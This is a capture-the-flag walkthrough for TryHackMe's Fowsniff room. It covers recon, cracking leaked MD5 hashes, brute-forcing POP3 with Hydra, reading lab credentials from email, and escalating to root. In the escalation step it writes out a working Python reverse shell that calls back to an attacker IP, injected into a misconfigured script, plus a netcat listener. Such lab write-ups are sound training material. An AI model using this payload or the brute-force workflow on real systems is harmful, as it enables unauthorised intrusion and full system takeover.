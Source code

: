 ```yaml
---
title: Fowsniff CTF
category: Privilege Escalation
difficulty: Easy
tags: [nmap, hydra, pop3, ssh, privilege escalation, reverse shell]
platform: TryHackMe
year: 2025
date: 2025-10-25
---
```


# Fowsniff CTF (2025)

## 📝 Description

This challenge involves a full penetration test, from initial port scanning to gaining root access. The path requires finding leaked credentials on GitHub, cracking MD5 hashes, using Hydra to gain POP3 access, finding an SSH password in an email, and finally escalating privileges by injecting a reverse shell into a misconfigured script.

---

## 🔍 Initial Recon

| Item                  | Notes                                                                                                    |
| :-------------------- | :------------------------------------------------------------------------------------------------------- |
| **Files provided**    | None                                                                                                     |
| **Services / Ports**  | 22/tcp (ssh), 80/tcp (http), 110/tcp (pop3), 143/tcp (imap)                                              |
| **Hints given**       | The HTTP web page mentioned a data leak                                                                  |
| **Observed behavior** | The data leak hint led to a GitHub page containing usernames and their corresponding MD5 password hashes |

---

## 🛠️ Approach

### Step 1: Initial Access via POP3

* Followed the website hint about a data leak which led to a GitHub page with leaked usernames and MD5 hashes.
* Used an online hash cracker to decrypt the MD5 hashes to probable passwords.
* With the list of usernames and candidate passwords, used **Hydra** to brute-force the POP3 service on port 110.
* Hydra revealed a valid credential pair: `seina:scoobydoo2`.

### Step 2: Discovering SSH Credentials

* Connected to POP3 with `nc 10.201.99.253 110` to retrieve mail.
* Retrieved and read two emails (`RETR 1`, `RETR 2`).

  * The first email (from A.J. Stone) mentioned access to a temporary SSH server and provided a temporary password: `S1ck3nBluff+secureshell`.
  * The second email confirmed other usernames including `baksteen`.
* Used username `baksteen` with the temporary password to log in via SSH.

### Step 3: Privilege Escalation

* Once logged in as `baksteen`, searched for files with group-execute permissions relevant to user's groups.
* Found an interesting script: `/opt/cube/cube.sh`.
* Edited the script to insert a Python reverse shell payload that connects back to the attacker machine (`10.17.21.245:1234`).

**Payload added to `cube.sh`:**

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.21.245",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Step 4: Gaining Root

* On the attacker machine, set up a netcat listener: `nc -lvp 1234`.
* Triggered the execution of the `cube.sh` script (by logging out/in or waiting for the service to run it).
* The listener received a connection from the victim machine.
* Ran `id` on the received shell and confirmed root: `uid=0(root) gid=0(root) groups=0(root)`.

---

## 🔬 Flag

With root, navigated to `/root`, listed files, and read `flag.txt`. The file contained the root flag and a small message (ASCII art):

```
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (_ / _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by 
@berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```